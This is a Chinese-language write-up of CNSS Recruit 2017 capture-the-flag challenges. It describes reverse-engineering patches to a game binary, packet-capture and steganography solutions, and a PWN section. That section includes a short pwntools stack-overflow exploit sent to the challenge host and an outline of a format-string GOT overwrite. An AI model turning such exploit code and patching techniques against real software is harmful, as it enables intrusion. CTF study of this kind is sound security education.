CNSS Recruit 2017 Kyrios' WriteUp
RE
TouHouProject
这个题建议动态调试，逻辑看起来可能比较清楚一些，适合萌新入门。
Easy
直接进 easy 会发现拒绝访问，这种绕过最简单，直接定到输入后的逻辑查看原因。

在输入字符串的匹配流程中我们可以看到两个连续的 strcmp 函数。 第一个 strcmp 将输入字符串和 "easy" 比较。这里直接通过。第二个 strcmp 将输入字符串和 "lunatic" 比较，如果匹配失败则直接跳转到 Access Denied。"easy" 和 "lunatic" 肯定是不能匹配的。这里只要在验证的时候修改验证结果，防止跳到 Access Denied 那里即可。
留意一下 Access Denied 的位置，我们让 00007FF6892869FB 处的跳转不执行而执行 00007FF689286A01 处的跳转，就可以直接拿到 flag（毕竟说好的简单难度）

Normal
过这个题的方法就很多了，过 normal 的居然比 easy 多，直接从网上找现成外挂过的都有？？？ 反正面试遇到用现成外挂的选手就直接送走吧。
目标是过关，方法肯定有很多，你可以去掉被弹判定，取消死亡判定，修改生命的数量等等。你也可以直接像
p姐姐一样硬扭过去（加油，我反正打不过）。
这里主要讲一下我觉得简单的做法，直接干掉死亡判定。
这里其实给萌新留了一条线索，死亡判定的地方会打印一条 "GameOver"
这样的信息，我们在调试器里也可以直接搜索字符串定位过去。

看到熟悉的 exit 函数，可以确定 GameOver 就是这里。

出于减少异常的考虑，我决定干掉跳转到 GameOver 的语句，找一下前面地址的引用可以跟过去。

选中的 call 是跳到 GameOver 的，可以看到执行 call 之前有一个无条件的 jmp 语句，所以我们只需要 Nop 掉 00007FF6AA9DE079 处的 jle 跳转，这个跳转指向 call GameOver，就可以让 GameOver 这段代码不执行。
顺便一提，获得 flag 需要在通关的同时获得 150000 分以上，有了无敌随便打打就过了。

Misc
上课小动作
Wireshark 打开流量包，在 tcp 流里面翻一下能看到传输的文件是一个叫 CNSS 2017 的 Word 文档

再之后这个就是文件的具体内容，直接抓下来

Word 打开拿到 flag（其实你看到文件头有 PK 的话用 zip 打开翻那个 XML 里应该也能看到明文 flag。） 
图书馆魅影
给的 Hint 是机器的序列号

由 tag 环境联想到环境变量，直接查看环境变量就可以

云上之灵
传统的 LSB，直接 stegsolve 打开翻了一下顺序，最后可以在 BGR 顺序的最低有效位找到明文

拿去解一下直接得到 flag

下面两个是其他选手出的题 @plusls
PWN
Easymaze
程序丢进 IDA 看到输入名字的地方一个大写的栈溢出

buf 是一个 char 型变量，这里 read 可以读 1000.
进入栈空间里看一下，算出 buf 首地址到返回地址的距离 = 0x7a + 0x8 = 130。构造 payload 一把梭。这里注意一下方向键的问题就好。

exp: 1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18from pwn import *
u = '\x1b\x5b\x41'
d = '\x1b\x5b\x42'
r = '\x1b\x5b\x43'
l = '\x1b\x5b\x44'
p = remote('pwn.plusls.cn', 17001)
p.sendline(r + d*3 + r + d*4 + r*3 + u*2 + r*2 + d + r + '\n')
p.recv()
p.sendline('a' * 130 + '\xd6\x18\x40\x00\x00\x00\x00\x00' + '\n')
print p.recv()
p.interactive()
猜老婆
输入那里存在格式化字符串漏洞。 大概思路把 got 表里 printf 改成 system 的地址就可以。 懒得写（懒癌晚期